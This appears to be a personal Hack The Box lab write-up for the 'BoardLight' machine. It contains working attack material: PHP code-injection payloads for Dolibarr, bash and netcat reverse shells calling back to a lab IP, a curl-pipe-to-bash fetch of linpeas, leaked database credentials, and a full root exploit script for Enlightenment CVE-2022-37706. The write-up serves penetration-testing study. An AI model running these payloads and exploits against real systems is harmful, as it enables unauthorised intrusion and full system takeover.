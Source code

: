 # NOTE: IPPSec video is a must watch. explains in detail with code analysis and goes beyond scope. Has a lot of good information
## Reconnaissance
- 10.10.11.11
	- port 80 : BoardLight
		- can submit message (maybe RCE via that?)
- dirbuster finds some js code files.
- ffuf for fuzzing url
```
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/Web-Content/big.txt   -H "Host:FUZZ.board.htb" -fs 15949
```
- We find crm.board.htb and att to /etc/hosts file
- This url leads us to login page.
	- on searching google we see default creds is admin/admin
	- We also see the version and on searching online we see it has a vulnerability : PHP code injection
		- also has a github which automates it.
```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
- pass after logging in with creds- Gain access as www-data
## Manual method
- create new website
	- add php code in Edit HTML Source
		- pass php command to check
			- doesn't work but we see that its case sensitive and can pass if we make any or all characters in PHP uppercase
		- pass command with new knowledge
```
<?PHP echo system("whoami");?>
OR
<?pHp phpinfo();?>
```
- save and click Preview page.
- - pass reverse shell 
```
<?php system(bash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'); ?>
```
- main exploit (from writeup htb):
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.25 4455 >/tmp/f");?
```
- In the payload above, the PHP code utilizes the system() function to execute a shell command on the server. The command first removes any existing named pipe at /tmp/f to ensure there is no conflict. It then creates a new named pipe in the same location. The command reads from the named pipe, while cat /tmp/f /bin/sh -i 2>&1 starts an interactive shell, redirecting both standard output and error to the named pipe. Finally, the nc 10.10.14.41 4455 > /tmp/f command connects to our IP address on port 4455 using Netcat , allowing the input and output of the shell to flow through the named pipe. This setup effectively creates a reverse shell connection back to our listener, enabling remote command execution on the target system	 
- also pass php-reverse-shell.py (pentestmonkey) into it and that works too.
- for both i keep netcat listener open on required port.
- we check user and we are www-data
  
## Enumerating as www-data and Gaining initial foothold
- on enumerating we find htdocs, which holds a conf folder and a conf file.
	- within that we find a dbuser and password.
```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
- I checked /home and found a larissa directory which implies a user named larissa.
	- Can also check(more ideal enumeration)
```
cat /etc/passwd | grep "sh$" # or grep "sh" too
```
- shows user larissa can run bash
- ssh into machine with db_pass.
	- **NOTE: Yes, can fall into a rabbit hole here as db_pass doesn't imply user pass. Definitely check IPPSec for a more detailed explanation but we eventually find some info enumerating. but it helps with the priv escalation anyway. Bottom line the code checks if user belongs to any user or groups and if not it can't execute the exploit. user larissa is part of adm group which is part of that list and thus can.)**
	- 
## Privilege Escalation
- can send linpeas by first getting it from local machine, and starting a server:
```
sudo python3 -m http.server 9898
```
- call linpeas from target
```
wget http://10.10.14.25(source_ _addr):9898/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl http://10.10.14.25:9898/linpeas.sh|bash #to execute without downloading
```
- On enumerating we find some setuid files which are interesting. this can also be found by enumerating  with find for setuid:
```
find / -type f -perm -4000 2>/dev/null
```
- We find an enlightenment file which is unusual
	- can't execute this as www-data
			- can check version with larissa
```
englightenment --version
```
- we find it to be 0.23.1
- On searching online enlightenment has an exploit CVE-2022-37706
	- We download from exploit.db url :
		https://www.exploit-db.com/exploits/51180
		- and send it to target just like we did with linpeas and www-data user. Need to edit the exploit to only include the bash code within it.
```
wget http://10.10.14.25:9898/51180.txt
cat 51180.txt # copy bash code only
vi exploit.sh # paste bash code
chmod +x exploit.sh
./exploit.sh
whoami
```
- We gain root privileges
- root flag at /root/
---
## Root Priv Esc exploit in detail
- **NOTE: We can understand why better from IPPSecs source code analysis which basically calls a bash file. (there is an even better explanation of the actual exploit for root which is shown below and explains the directory path having ;, abd the weird // and all to bypass the codes restrictions to pass the exploit) long story short, in the main code it checks for the length which requires it to be around 6 characters and hence the extra // to pass that check. Many more checks  explained in his video and how this exploit passes through it.**
```
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o 
#MAIN PART OF EXPLOIT
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
----
